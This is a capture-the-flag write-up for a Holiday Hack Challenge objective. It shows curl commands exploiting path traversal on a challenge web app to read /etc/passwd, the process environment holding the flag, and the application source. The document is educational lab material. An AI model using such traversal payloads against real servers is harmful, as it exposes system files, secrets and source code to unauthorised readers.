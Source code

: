 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value of the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../proc/1/environ --output -

PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=b7610641492eRUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTI0Mzk0Mjg2NiwxMzEyMDU2NDUzLDkyMD
Q1NTg2NSwtMTYwNjA3ODA0MF19
-->
